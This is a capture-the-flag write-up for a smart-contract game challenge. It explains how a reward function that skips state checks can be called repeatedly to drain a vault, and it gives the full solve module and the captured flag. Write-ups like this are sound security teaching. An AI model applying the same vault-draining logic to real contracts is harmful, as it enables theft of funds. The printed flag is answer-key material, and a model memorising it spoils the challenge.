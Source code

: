 Now, one would expect the normal gameplay loop to be: Visit the tavern, buy equipment, checkout, add a monster to the questboard, defeat the monster, return home and get the reward.

This would only work once though, since the players power gets reset after every fight, so equipment is consumeable, but unfortunately, the equipment required to defeat a monster is more expensive than the reward the monster gives.

So instead we have to do a little sequence breaking, and we will abuse the fact that the player state is not always checked correctly.

Our only way of generating money, is getting the reward, which doesn't actually check if a monster has been defeated or not, and just gets the top monster from the quest board, and pays out. And even better, we can totally call this function when the player is in a state other than `FINISHED`, namely `SHOPPING`.

So our plan now: get equipped, generate a bunch of monsters for our quest board, defeat one, get the reward, go shopping and get the reward again until there are no monsters left on the board, which should lead to enough money to be able to afford the flag.

There is just a small roadblock: the generated tickets must always be consumed by the `checkout` function, otherwise the transaction is illegal. Luckily, we can always call `checkout` from any state, and so we can make sure to buy a cheap shield while we are shopping, and still make big profits.

Coding all of this out results in this here:
```rust
module solve::solve {

    // [*] Import dependencies
    use challenge::Otter::{Self, OTTER};

    public fun solve(
        _board: &mut Otter::QuestBoard,
        _vault: &mut Otter::Vault<OTTER>,
        _player: &mut Otter::Player,
        _ctx: &mut TxContext
    ) {
        let mut friendship_ticket = Otter::enter_tavern(_player);
        Otter::buy_power_of_friendship(_player, &mut friendship_ticket);
        Otter::checkout(friendship_ticket, _player, _ctx, _vault, _board);
        let mut i = 0;
		while (i < 9) {
			Otter::find_a_monster(_board, _player);
			i = i + 1;
		};
		Otter::bring_it_on(_board, _player, 0);
		Otter::return_home(_board, _player);
		Otter::get_the_reward(_vault, _board, _player, _ctx);
		
		i = 0;
		while (i < 8) {
			let mut ticket = Otter::enter_tavern(_player);
			Otter::buy_shield(_player, &mut ticket);
	        Otter::get_the_reward(_vault, _board, _player, _ctx);
			Otter::checkout(ticket, _player, _ctx, _vault, _board);
			i = i + 1;
		};
		
        let mut flag_ticket = Otter::enter_tavern(_player);
        Otter::buy_flag(&mut flag_ticket, _player);
        Otter::checkout(flag_ticket, _player, _ctx, _vault, _board);
    }

}
```

Which gets us the flag: 
`justCTF{Ott3r_uses_expl0it_its_sup3r_eff3ctiv3}`
